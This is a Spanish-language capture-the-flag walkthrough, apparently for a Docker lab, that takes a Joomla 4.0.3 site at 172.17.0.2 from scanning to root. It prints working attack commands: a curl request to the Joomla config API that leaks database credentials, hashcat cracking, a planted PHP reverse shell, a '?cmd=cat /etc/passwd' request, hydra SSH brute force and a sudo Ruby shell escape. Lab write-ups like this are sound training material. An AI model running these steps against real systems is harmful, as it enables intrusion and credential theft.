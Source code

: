 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![image](https://github.com/user-attachments/assets/50675612-80c8-4071-b29a-581309090f31)

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![image](https://github.com/user-attachments/assets/61314e6d-2a8b-4e5e-abe1-3f65103725a2)

entramos a los dos de robots.txt y administrador

![image](https://github.com/user-attachments/assets/92a794ae-04b3-419c-bff4-4f517e7cb9e7)

![image](https://github.com/user-attachments/assets/2dbc3100-4fe1-4381-8ea1-8b29038b55de)

buscando también me llamo la atención esto

![image](https://github.com/user-attachments/assets/88ef841f-d5cb-4f34-8ee3-f38719dddb26)

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![image](https://github.com/user-attachments/assets/9105f3c8-586f-48cb-85e7-09a41d13ac72)

usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  

revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![image](https://github.com/user-attachments/assets/f8d28e70-b8ea-405c-a017-ab7bcc4a3733)

    use joomla_db
    show tables

![image](https://github.com/user-attachments/assets/610fc7fc-564a-4302-9f9b-e00df1af7c48)


    select * from ffsnq_users;

nos da una contraseña encriptada:

![image](https://github.com/user-attachments/assets/676d66ed-15cc-43de-984c-c8c6412ba7c4)


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![image](https://github.com/user-attachments/assets/aa06ac02-5ece-4d63-9e0c-56f8ed2117ea)

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.

![image](https://github.com/user-attachments/assets/9864687e-a268-45b9-8d7d-2a1334c1e591)

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![image](https://github.com/user-attachments/assets/b6ebaff8-7100-4b50-8229-d26c4ce2d885)

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![image](https://github.com/user-attachments/assets/7c491d6d-8d06-4303-b666-5ba0687ec4c6)

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![image](https://github.com/user-attachments/assets/75836fd7-fad0-46b3-9acb-51614cad2deb)

y somos root! 
